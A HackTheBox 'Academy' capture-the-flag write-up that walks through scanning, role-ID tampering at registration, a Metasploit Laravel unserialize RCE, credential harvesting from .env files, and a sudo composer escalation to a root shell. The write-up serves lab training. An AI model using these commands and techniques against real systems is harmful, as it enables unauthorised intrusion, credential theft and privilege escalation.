# [Academy](https://app.hackthebox.eu/machines/297) HackTheBox Writeup


## First Stage : Enumeration


Let's fire up nmap.

```
# Nmap 7.91 scan initiated Wed Jan 20 12:32:23 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.10.215
Warning: 10.10.10.215 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.215
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-20 12:32:25 IST for 2473s
Not shown: 64541 closed ports, 991 filtered ports
Reason: 64541 conn-refused and 991 no-responses
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/0BA3dU0ygKCvP7G3GklCeOqxb17vxMCsugN05RA9Fhj7AzkPiMLrrKRY656gBuscH23utAWAhRXzV1SyU37bbFzEbfaqYAlh1ggHEuluLgbf9QsYZe76zCx2SRPOzoI9Q40klVvuu9E92pNLe80dvUZj644EwhJTGw4KGxeOqeuo/nXnYfiNAbWvOe9Qp+djDbEvP5lHwIDMTAtgggoSC1chubC3jFC4hihuYjtitjUr4+5fROomhJAo/GEvdBj2CYNHIFEvmuvb32cgul5ENQS4fJXpcI7fbP9/+b/cfA9oRxG2k+k1M8mUld2h5mHEVBE5Z9WKS3cRYu97oVKnRRCoDY/55mZw6lngIdH4drpYwzCrZcCWgviXRfCeOwmZ8sucap6qN/nFYnPoF7fd+LGaQOhz9MkAZCTMmLqSiZGSistAIPzHtABH0VQDbo2TqJ+kGWr9/EamCcYBbVVPaFj/XQqujoEjLYW+igihwrPEQ7zxlleQHwg91oSVy38=
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAIMsz8qKL1UCyrPmpM5iTmoy3cOsk+4L7oFdcPjBXwAcUVvnti7nXHlNqMfgsapbGSIl7AWTOeXLZmw2J6JWvE=
|   256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBP1E2rWeTShvyJKxC5Brv1Do3OwvWIzlZHWVw/bD0R
80/tcp    open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91%I=7%D=1/20%Time=6007DF06%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1
SF:a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000
SF:")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0
SF:\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r
SF:(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 20 13:13:38 2021 -- 1 IP address (1 host up) scanned in 2475.13 seconds
```

Hence the open ports are:

* 22
* 80
* 33060

So it seems like port 80 is our way in.


Let's visit it .

### Note : add academy.htb Boxip in /etc/hosts file





Hence Let's fire up gobuster to find hidden directories.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://academy.htb/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2021/01/20 12:34:34 Starting gobuster
===============================================================
/register.php (Status: 200)
/admin.php (Status: 200)
/home.php (Status: 302)
/config.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/01/20 13:46:20 Finished
===============================================================
===============================================================
```

So we have an interesting directory **admin.php**


As I was seeing source code of every page , register.php caught my eye.


So let's fire up burpsuite.


Hence while registering I intercepted the request.





I changed the roleid to 1 and forwarded I got to .




Afterwards we are redirected to login.php.


Hence I try this credentials on admin.php and __boom__ it worked !

So I after I login I see this strange subdomain.





Hence we visit that subdomain after adding it to /etc/hosts.





Hence we see the app name is **Laravel**.


So maybe this might have a public exploit.


## Second Stage : Initial access as www-data

After searching we see that there is a [metasploit module](https://www.rapid7.com/db/modules/exploit/unix/http/laravel_token_unserialize_exec/).


Before we exploit let's understand what is the vulnerability and how it is exploited.

```
This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.
```


So let's fire up metasploit.


```shell
use exploit/unix/http/laravel_token_unserialize_exec

set LHOST tun0

set APP_KEY <app-key>

set RHOSTS <box-ip>

set VHOST <redacted>.academy.htb

run
```
Since metasploit session may die , let's use reverse shell and get a proper shell.





## Third Stage : www-data to cry0l1t3


So we need to find which user we want to escalate as.



So the user cry0l1t3 has the user flag so let's aim for that user.


I ran linpeas but got no password , maybe I was not looking closely . Then I searched important files of Laravel . I got to know that **.env** files have sensitive information.


Hence I did this search .

> find / -type f -name .env 2>>/dev/null




Hence I opened the first file.




I used this for cry0l1t3 and it worked.


## Fourth Stage : cry0l1t3 to mrb3n


Let's ssh using the passsword we got.


Use **/bin/bash -p** to get a proper bash shell.


So I ran linpeas as usual.


And as I was reading through the results I found this.



So we get user mrb3n's password


## Fifth Stage : mrb3n to root


As soon as I got in as mrb3n I tried 

>sudo -l





Hence I went to [GTFOBins](https://gtfobins.github.io/)

And searched for composer.


And steps to escalate are as follows


```shell
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo /usr/bin/composer --working-dir=$TF run-script x
```





